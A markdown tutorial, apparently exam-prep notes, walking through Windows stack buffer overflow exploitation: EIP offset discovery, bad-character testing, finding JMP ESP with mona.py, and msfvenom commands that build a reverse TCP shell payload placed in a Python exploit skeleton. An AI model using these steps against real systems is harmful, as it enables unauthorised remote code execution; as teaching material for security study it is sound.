 # BOF Exploitation


## 1. Replicating the crash

Once the vulnerability is discovered, we need to find the way to control the EIP. In this moment, the objective is to rewrite the fuzzer script that crashes the app with a fixed length (without loop). Let's say 800 bytes.

_____

## 2. Controlling EIP

The crucial step here is to find which part of our buffer (800 bytes) is landing in the EIP register. To do this, there are two common ways to do it:

#### 2.1 Binary Tree Analysis (slowest)

This method requires sending the buffer with half of it being A's and the other half being B's (AAAAA...BBBBB). If the EIP register is overwritten by B's, we know the EIP is inside the second half. We now take this half and split in two parts, left part being B's and the right part being C's. The process continues until we find the exact four bytes that overwrite EIP.

#### 2.2 Patterns (faster)

The point here is to create a long string that consists of non-repeated 4 bytes as the fuzzing data. Once the EIP is overwritten with these 4 bytes, we can identify where exactly happened using various tools.

```bash
#Creating the string with a length of 800 bytes:
msf-pattern_create -l 800
```

At this point, copy the value of the EIP register and execute the following command to extract the exact offset:

```bash
#-l is the length of the original string:
msf-pattern_offset -l 800 -q 42306142
```

Once identified the offset, we can execute a test by using A's for the offset, B's for 4 EIP bytes and C's for the rest. If the EIP is 0x42424242 we are good!

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 16
```
_____

## 2.3 Locating space for Shellcode

Looking at the last crash we made we can see that the ESP register points to our buffer of C's (but 4 bytes after).

Knowing that shellcodes have a size of 350-400 bytes approximately, we can increment our script with an additional 700 bytes to see if it allows enough space for our shellcode without breaking the buffer overflow:

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 4
shellcode = "D" * 700
```

Once the script is executed again, the ESP register should point to our shellcode placeholder (full of D's).

**Note that ESP address changes everytime we run the exploit.**

_____

## 2.4 Checking for Bad Characters

> A bad character is simply a list of unwanted characters that can break the shell codes. There is no universal set of bad characters, as we would probably be beginning to understand, but depending on the application and the developer logic there is a different set of bad characters for every program that we would encounter. Therefore, we will have to find out the bad characters in every application before writing the shell code.

Some of the very common bad characters are:

```
0x00 for NULL
0x0A for Line Feed
0x0D for Carriage Return
0xFF for Form Feed
```

A way to check which characters are bad for a particular exploit is to send all possible characters, from 0x00 to 0xFF, as part of the buffer and see how the application deals with it.

In order to test in our example, we can add them as our shellcode placeholder:

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 4
shellcode = "\x00\x01\x02\x03.....\xff"
```

After executing the script we need to right-click on the ESP register and click "Follow in Dump" and see which character is truncating our shellcode. We note that, delete it from the shellcode, and continue until the last character (xff).

_____

## 2.5 Redirecting the Execution Flow

We know that our shellcode is placed at the address pointed in the ESP register. Now we need a way to get that code executed. One way is to leverage a JMP ESP (which will "jump" into the address pointed in ESP).

We can find this JMP ESP instruction in the many Windows libraries, but needs some criteria:

1. Adresses used in the library must be static.
2. The address of the instruction must not contain bad characters.

### Using mona.py

To begin with our return address search we will use mona.py. In order to request information from all the DLLs or modules loaded by the application into the proccess memory, execute the following syntax in the bottom of Inmunity Debugger:


```
!mona modules
```

In this screen we should find a dll or module that have the flags from SEH, ASLR and NXCompact on false (those are for security purposes) and remember that **the address must not have bad chars.**

Once found, we need to find the address of a JMP ESP instruction within this module. To do this, first translate the instruction (JMP ESP) to opcode (hexadecimal):

```bash
#Using metasploit:
msf-nasm_shell
jmp esp
#Take the Hexadecimal values
```

Now, search for it inside the module with mona:

```bash
#Change "\xff\xe4" with the correct opcode:
!mona find -s "\xff\xe4" -m "$MODULENAME"
```

Now mona should show the address fo the JMP ESP instruction. Remember that **the address must not have bad chars.**

If the address is ok and we redirect the EIP register to this address at the crash, the JMP ESP instruction will be executed and the program will execute our shellcode.

To do this, add the address in little endian format to our eip script:

```python
filler = "A" * 780
eip = "\x00\x00\x00\x00" #Change this for the little-endian values
buffer = "C" * 4
shellcode = "D" * 700
```

_____

## 2.6 Generating Shellcode

We can use metasploit msfvenom in order to generate our shellcode.

```bash
#List all types of shellcode:
msfvenom -l payloads
#Generate reverse TCP shell using C format (-f):
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f c
```

Note that the shellcode provided by msfvenom may contain bad chars. If this is the case, we need to encode it by using the following technique:

```bash
#-e: Specify the encode to use.
#-b: Specify the bad characters we don't want.
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f c -e x86/shikata_ga_nai -b "\x00\x00\x00\x00"
```

In case the app supports threaded mode, we can use the EXITFUNC flag of msfvenom in order to prevent the crash of the application once the reverse shell is closed:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x00\x00\x00"
```
_____

## Getting a reverse shell

In order to get a reverse shell, we only need to change our buffer of D's with the shellcode provided by msfvenom:

```python
filler = "A" * 780
eip = "\x00\x00\x00\x00" #Change this for the little-endian values
buffer = "C" * 4
shellcode = "\x00\x00.....\x00" #Change this wtih the correct shellcode
```

However, if we used some encoding technique in order to remove bad chars, we need to **add some NOPs (\x90)** before the shellcode because the process of decoding the shellcode will override a few bytes from the top of the stack (which is where our shellcode is placed). The final form of the script will be:

```python
filler = "A" * 780
eip = "\x00\x00\x00\x00" #Change this for the little-endian values
buffer = "C" * 4
nops = "\x90" * 10
shellcode = "\x00\x00.....\x00" #Change this wtih the correct encoded shellcode.
```
